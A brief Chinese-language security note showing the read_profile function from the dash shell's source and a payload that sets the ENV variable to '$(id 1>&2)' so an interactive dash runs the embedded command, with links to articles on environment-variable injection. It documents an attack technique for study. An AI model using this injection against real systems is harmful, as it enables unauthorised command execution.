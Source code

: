 read_profile

```c
STATIC void
read_profile(const char *name)
{
    // expandstr可以解析shell命令，解析的name参数就是环境变量ENV
    name = expandstr(name);
    if (setinputfile(name, INPUT_PUSH_FILE | INPUT_NOFILE_OK) < 0)
        return;

    cmdloop(0);
    popfile();
}
```

payload

```shell
ENV='$(id 1>&2)' dash -i -c 'echo hello'
```

![image-20221107152419461](../images/image-20221107152419461-1686813288528.png)



# 参考文章

https://www.anquanke.com/post/id/254388#h3-6

https://www.leavesongs.com/PENETRATION/how-I-hack-bash-through-environment-injection.html
